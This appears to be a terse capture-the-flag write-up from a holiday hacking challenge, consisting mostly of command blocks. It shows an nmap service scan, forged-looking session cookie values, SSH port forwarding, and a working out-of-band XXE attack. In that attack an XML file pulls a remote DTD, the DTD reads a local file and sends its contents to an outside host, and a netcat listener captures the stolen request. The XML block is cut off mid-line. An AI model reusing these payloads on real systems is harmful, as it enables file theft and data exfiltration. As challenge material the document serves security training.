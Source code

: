 ```
nmap -sV 127.0.0.1 -p 22,25,8080,143,2525,3000

Starting Nmap 7.60 ( https://nmap.org ) at 2017-12-20 18:54 CET
Nmap scan report for localhost (127.0.0.1)
Host is up (0.000055s latency).

PORT     STATE  SERVICE VERSION
22/tcp   closed ssh
25/tcp   open   smtp    Postfix smtpd
143/tcp  open   imap    Dovecot imapd
2525/tcp open   smtp    Postfix smtpd
3000/tcp open   http    Node.js Express framework
8080/tcp open   http    nginx 1.10.3 (Ubuntu)
Service Info: Host:  mail.northpolechristmastown.com; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
EWA="{"name":"GUEST","plaintext":"","ciphertext":""}"

EWA={"name":"alabaster.snowball@northpolechristmastown.com","plaintext":"","ciphertext":"WmczgfAW8upVlZabYxzEXQ"}




## Online Resource Management with XML External Entity (XXE) Vulnerability


```
ssh -L 8080:10.142.0.13:80 -L 3389:10.142.0.7:3389  alabaster_snowball@l2s.northpolechristmastown.com
```


```
cat order.xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE demo [
    <!ELEMENT demo ANY >
    <!ENTITY % extentity SYSTEM "http://federland.dnshome.de:13337/evil.dtd">
    %extentity;
    %inception;
    %sendit;
    ]
<
```

```
cat evil.dtd 
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY % stolendata SYSTEM "file:///c:/greatbook.txt">
<!ENTITY % inception "<!ENTITY &#x25; sendit SYSTEM 'http://federland.dnshome.de:13338/?%stolendata;'>">
```

```
nc -l 13338
GET /?http://eaas.northpolechristmastown.com/xMk7H1NypzAqYoKw/greatbook6.pdf HTTP/1.1
Host: federland.dnshome.de:13338
Connection: Keep-Alive
```
